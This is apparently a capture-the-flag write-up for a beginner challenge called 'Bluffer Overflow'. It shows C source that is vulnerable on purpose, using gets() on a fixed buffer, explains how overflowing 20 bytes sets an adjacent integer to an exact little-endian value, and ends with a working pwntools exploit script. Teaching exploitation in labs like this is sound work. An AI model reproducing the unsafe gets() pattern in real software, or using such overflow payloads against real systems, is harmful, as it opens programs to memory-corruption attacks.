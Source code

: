 
# Bluffer Overflow 😏

## Overview & Description

Author : rennfurukawa

Points : Unknown

Difficulty : Easy

Maybe it's your first time pwning? Can you overwrite the variable?

[chall.c](../dist/chall.c)

## Hints

- Modified the variable with `specific` value
- Maybe **pwntools** can help you 😉

## TL;DR

- Overwrite the local variable with the character that have the exact value
- To find the character, you need to change the decimal value to hexadecimal
- Because of endianness, you need to reverse the character

## Exploitation

We were given the source code in C

<details>
<summary>chall.c</summary>

```c
#include <stdio.h>
#include <stdlib.h>

char buff[20];
int buff2;

void setup(){
	setvbuf(stdin, buff, _IONBF, 0);
	setvbuf(stdout, buff, _IONBF, 0);
	setvbuf(stderr, buff, _IONBF, 0);
}

void flag_handler(){
	FILE *f = fopen("flag.txt","r");
  	if (f == NULL) {
    	printf("Cannot find flag.txt!");
    	exit(0);
  }
}

void buffer(){
	buff2 = 0;
	printf("Can you get the exact value to print the flag?\n");
	printf("Input: ");
	fflush(stdout);
	gets(buff); 
	if (buff2 > 5134160) {
		printf("Too high!\n\n");
	} else if (buff2 == 5134160){
		printf("Congrats, You got the right value!\n");
	 	system("cat flag.txt");
	} else {
		printf("Sad, too low! :(, maybe you can add *more* value 0_0\n\n");
	}
	printf("Output : %s, Value : %d \n", buff, buff2);
}

int main(){
	flag_handler();
	setup();
	buffer();
}
```
</details>

So, to get the flag, we need to change the **buff2** value to **5134160**

First, we need to find the buffer, try to send character one by one, until the program return the value

After some trial and error, we find that the after the 20th input, the program turns the value

![](https://i.imgur.com/DZvy3au.png)

As we can see, if we send a character, program will turn its value to decimal

Based on ASCII Value, 65 is decimal of "A" character

![](https://i.imgur.com/D4ucS5n.png)

But, if we add character more than 1, the program will turn the value like this

![](https://i.imgur.com/ZqmeFNr.png)

This will happen if you store a byte into computer memory, program will read it in a certain order. So your value is converted to hexadecimal then reversed because of endianness. After that program will return it to decimal value.

To find the character, we need to change the value that we need to hexadecimal, then reverse it to big-endian

We can use python to do that

![](https://i.imgur.com/RN7HmgI.png)

We can pass that value to server and check if we get the flag

![](https://i.imgur.com/Rc3lILq.png)

And yeah, we get the flag !
    
Anyway, you can use pwntools to solve it more easier 😉

## Solve Script
    
<details>
<summary>solve.py</summary>

```python
from pwn import *

elf = context.binary = ELF("../src/blufferoverflow/bluffer", checksec=False)

def conn():
    if args.REMOTE:
        p = remote("127.0.0.1", 1337)
    else:
        p = process(elf.path)
    return p

p = conn()


offset = 20

payload = flat({
	offset : [
		5134160
	]
})

p.recvuntil(b": ")

p.sendline(payload)

p.interactive()
```